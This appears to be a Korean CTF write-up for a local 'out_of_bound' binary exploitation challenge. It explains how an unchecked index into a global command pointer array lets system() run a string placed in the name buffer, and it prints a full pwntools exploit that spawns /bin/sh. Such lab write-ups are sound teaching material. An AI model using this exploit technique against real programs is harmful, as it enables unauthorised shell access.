



# Structure


전역 변수에서 name(16바이트), command(포인터 변수로 40바이트)로 구성되어 있고, main 함수에서 name을 read로 입력받고 idx를 입력받아 해당 인덱스의 저장된 주소의 명령어를 system()으로 실행하는 구조이다.
# Vuln
문제의 이름과 같이 입력받은 idx를 검사하지 않아 idx를 통해 command 배열 외에 데이터를 조회 및 실행할 수 있다.
# Exploit
```python
from pwn import *

context.arch = 'i386'

p = process('./out_of_bound')

e = ELF('./out_of_bound')
addr = e.symbols['name'] + 0x4
payload = p32(addr) + b'/bin/sh'
idx = str((e.symbols['name'] - e.symbols['command']) // 4)

p.sendlineafter(b'Admin name: ', payload)
p.sendlineafter(b'What do you want?: ', idx)

p.interactive()
```
따라서 name에 실행할 명령어와 그 명령어 주소를 가리키는 주소 4byte를 앞에 두어 입력하고, command 배열과 name 배열의 차이를 구하고, 4로 나누어 차이나는 idx를 구하고 name 주소로 지정하여 앞에 저장된 주소 → 뒤 실행할 명령어를 이용해 익스플로잇 하면

플래그를 얻을 수 있다.
<empty-block/>
### Notes
read()는 개행이 종료 기준이 아니기에, sendline으로 보내면 개행까지 저장됨, 최대한 null을 문자열에 포함헤서 send로 보내기
포인터 배열 개념
